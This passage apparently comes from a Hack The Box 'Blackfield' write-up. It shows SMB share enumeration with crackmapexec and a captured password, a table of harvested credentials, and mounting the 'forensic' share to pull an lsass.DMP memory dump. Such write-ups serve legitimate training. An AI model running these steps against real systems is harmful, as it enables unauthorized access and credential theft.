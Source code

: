 Now if we try to list shares from the DC with the `Audit2020` user we see that we have READ access to `forensic` share.

```bash
$ crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'P@ssw0rd!' --shares                           

SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:P@ssw0rd! 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

It worked. Now we have one more credential.

| username | password |
| --- | --- |
| support | #00^BlackKnight |
| audit2020 | P@ssw0rd! |

```bash
$ smbclient '//10.10.10.192/forensic' -U 'Audit2020'
Password for [WORKGROUP\Audit2020]: P@ssw0rd!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 05:03:16 2020
  ..                                  D        0  Sun Feb 23 05:03:16 2020
  commands_output                     D        0  Sun Feb 23 10:14:37 2020
  memory_analysis                     D        0  Thu May 28 13:28:33 2020
  tools                               D        0  Sun Feb 23 05:39:08 2020

                5102079 blocks of size 4096. 1674475 blocks available
```

```bash
$ mkdir smb
cd smb 

$ sudo mount -t cifs -o 'username=audit2020,password=P@ssw0rd!' '//10.10.10.192/forensic' /mnt/htb

$ cp /mnt/htb/memory_analysis/lsass.zip .

$ unzip lsass.zip   
Archive:  lsass.zip
  inflating: lsass.DMP

$ sudo umount /mnt/htb 
```
